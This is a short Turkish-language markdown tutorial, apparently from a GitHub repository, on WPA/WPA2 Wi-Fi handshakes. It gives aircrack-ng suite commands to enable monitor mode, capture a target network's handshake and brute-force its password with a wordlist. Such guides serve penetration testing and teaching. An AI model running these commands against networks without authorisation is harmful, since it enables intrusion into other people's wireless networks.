 ### Bağlantı Süreci

1. Cihaz Wi-Fi şifresiyle ağa bağlanmaya çalışır.
2. Router kimlik doğrulama başlatır.
3. "4-way handshake" gerçekleştirilir.
4. Veri şifreli iletilir.

## 📌 WPA Güvenlik Açıkları

### WPA Handshake Yakalama Komutu

```bash
sudo airodump-ng -c [KANAL] --bssid [BSSID] -w dump wlan0mon
```

### Brute-force Saldırısı

```bash
sudo aircrack-ng -b [BSSID] -w [Wordlist] dump.cap
```

## 🔐 WPA/WPA2 Handshake Yakalama Rehberi

### 1. WPA/WPA2 Handshake Nedir?

Kablosuz bir ağa bağlanma sırasında 4-Way Handshake oluşur:

1. Client bağlanmak ister.
2. Router challenge gönderir.
3. Client cevap verir.
4. Router onaylar.

## 🔧 Gerekli Araçlar

- Kali Linux / Parrot OS
- Monitor mode destekleyen Wi-Fi adaptör
- Aircrack-ng
- Wireshark (opsiyonel)

## 📡 Monitor Modunu Açma

```bash
sudo iwconfig
sudo airmon-ng start wlan0
sudo airmon-ng check kill
```

## 📡 Hedef Ağı ve Kanalı Belirleme

```bash
sudo airodump-ng wlan0mon
sudo airodump-ng -c [KANAL] --bssid [BSSID] -w handshake wlan0mon
```

